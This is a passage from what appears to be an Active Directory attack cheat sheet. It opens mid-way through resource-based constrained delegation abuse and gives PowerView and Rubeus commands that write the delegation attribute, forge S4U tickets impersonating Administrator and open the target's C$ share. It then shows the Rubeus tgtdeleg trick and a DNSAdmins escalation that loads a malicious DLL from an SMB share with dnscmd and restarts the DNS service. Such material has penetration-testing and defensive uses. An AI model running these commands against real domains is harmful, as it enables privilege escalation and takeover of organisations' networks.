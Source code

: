 ```
$SD.GetBinaryForm($SDBytes, 0)

#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finally we can access the C$ drive of the target machine
dir \\\\TargetMachine.wtver.domain\\C$
```

Detailed Articles:

- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [RESOURCE-BASED CONSTRAINED DELEGATION ABUSE](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)

❗ In Constrain and Resource-Based Constrained Delegation if we don't have the password/hash of the account with TRUSTED_TO_AUTH_FOR_DELEGATION that we try to abuse, we can use the very nice trick "tgt::deleg" from kekeo or "tgtdeleg" from rubeus and fool Kerberos to give us a valid TGT for that account. Then we just use the ticket instead of the hash of the account to perform the attack.

`#Command on Rubeus Rubeus.exe tgtdeleg /nowrap`

### **DNSAdmins Abuse**

_If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work._

1. Enumerate the members of the DNSAdmins group:
    
    - PowerView: `Get-NetGroupMember -GroupName "DNSAdmins"`
    - AD Module: `Get-ADGroupMember -Identiny DNSAdmins`
2. Once we found a member of this group we need to compromise it (There are many ways).
    
3. Then by serving a malicious DLL on a SMB share and configuring the dll usage,we can escalate our privileges:
    
    `#Using dnscmd: dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll
    
    #Restart the DNS Service: sc \\DNSServer stop dns sc \\DNSServer start dns`
    

### **Abusing Active Directory-Integraded DNS**

- [Exploiting Active Directory-Integrated DNS](https://blog.netspi.com/exploiting-adidns/)
- [ADIDNS Revisited](https://blog.netspi.com/adidns-revisited/)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
